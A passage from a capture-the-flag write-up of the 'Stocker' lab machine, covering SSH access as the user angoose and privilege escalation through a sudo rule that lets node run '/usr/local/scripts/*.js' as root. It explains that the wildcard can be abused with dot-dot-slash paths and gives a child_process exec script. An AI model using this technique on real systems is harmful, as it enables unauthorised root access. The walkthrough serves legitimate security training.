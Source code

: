 * Now that we have a password, why not try it to ssh into the server as the user ```angoose```

## **<strong><font color="Brown">Initial Access</font></strong>**
### **<strong><font color="DarkCyan">SSH Access</font></strong>**

```console
angoose@stocker:~$ ssh angoose@10.10.11.196
angoose@10.10.11.196's password: [REDACTED]
Last login: Fri Mar 10 15:44:52 2023 from 10.10.16.12
angoose@stocker:~$ id
uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
angoose@stocker:~$ whoami
angoose
```
**📍 user.txt:** <br/>

<figure><center><img src="https://github.com/YounesTasra-R4z3rSw0rd/YounesTasra.github.io_Img/blob/main/2023-03-10%2017_15_46-HACKING_MACHINE%20-%20VMware%20Workstation%2016%20Player%20(Non-commercial%20use%20only).png?raw=true" alt=""></center><center><em><figcaption>/home/angoose/user.txt</figcaption></em></center></figure>


## **<strong><font color="Brown">Privilege Escalation</font></strong>**
### **<strong><font color="DarkCyan">Enumeration</font></strong>**
The first thing to do when it comes to privilege escalation enumeration is to run the ```sudo -l``` command, which will list the commands/permissions that our user is allowed to execute as a superuser (root) or other privileged user. <br/>
```console
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```
* As you can see ```angoose``` can execute the following command as root: 
```console
/usr/bin/node /usr/local/scripts/*.js
``` 
> 📝 **Note:** The directory ```/usr/local/scripts``` is writable only by root, which means we cannot create a malicious JavaScript file in /usr/local/scripts that will grant us a root shell when we run it with root privileges.

### **<strong><font color="DarkCyan">Exploiting Misconfigured SUDO</font></strong>**

With a wildcard ```*``` being used, we can use a sequence of dot-dot-slashes to iterate through any JavaScript file and execute it with root privileges. <br/>
Let's create a JavaScript file in /home/angoose directory, which will run the ```id``` command:
```javascript
const { exec } = require('child_process');

exec('id', (error, stdout, stderr) => {
  if (error) {
    console.error(`exec error: ${error}`);
    return;
  }
  console.log(`stdout: ${stdout}`);
  console.error(`stderr: ${stderr}`);
});
```